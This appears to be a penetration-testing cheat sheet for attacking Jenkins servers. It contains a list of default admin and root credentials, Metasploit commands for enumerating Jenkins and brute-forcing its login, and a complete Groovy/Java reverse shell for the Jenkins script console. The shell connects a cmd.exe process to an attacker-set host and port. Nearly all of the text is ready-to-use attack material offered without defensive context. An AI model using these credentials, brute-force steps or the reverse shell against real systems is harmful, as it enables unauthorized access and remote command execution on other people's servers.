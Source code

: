<u>Default Credentials</u>
```
admin:admin
admin:password
jenkins:jenkins
root:root
root:password
admin:admin1
admin:password1
root:password1
```


# [[msfconsole]]

```sh
# For Enumeration
msf> use auxiliary/scanner/http/jenkins_enum

# For Bruteforce
msf> use auxiliary/scanner/http/jenkins_login
```


# Groovy Exploit
For **Linux**
https://juggernaut-sec.com/port-forwarding-lpe/

For **Windows**
https://www.youtube.com/watch?v=EKGBskG8APc&t=540


```java
// Reverse Shell
// Change host, port, and cmd
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
